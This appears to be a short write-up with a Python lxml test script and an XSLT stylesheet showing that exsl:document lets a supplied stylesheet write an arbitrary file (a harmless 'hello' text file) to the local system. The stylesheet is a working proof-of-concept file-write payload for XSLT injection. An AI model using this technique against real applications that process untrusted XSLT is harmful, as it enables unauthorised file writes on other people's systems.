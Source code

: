 ```python
# test_transform.py
from lxml import etree as et
xslFilePath = "test.xslt"
f = open(xslFilePath, 'r')
xslt_doc = et.parse(f)
f.close()

output = "<root>test</root>"
# generate transformer
transform = et.XSLT(xslt_doc)

# transform the XML
xmlDoc = et.fromstring(output)
transformedOutput = transform(xmlDoc)

html = et.tostring(transformedOutput)
if not html:
    output = 'Loading...'
else:
    output = html

print(output)
```

```xml
<!-- test.xslt -->
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:exsl="http://exslt.org/common" extension-element-prefixes="exsl">
  <xsl:template match="/">
	  <exsl:document href="nathan_hacked_u.txt" method="text">
      <xsl:text>hello :^&#41;</xsl:text>
    </exsl:document>
  </xsl:template>
</xsl:stylesheet>
```

After some trial and error changing the contents of test.xslt, I was able to write an arbitrary file to my local system by taking advantage of the exsl namespace 😎

![test](out1.gif)
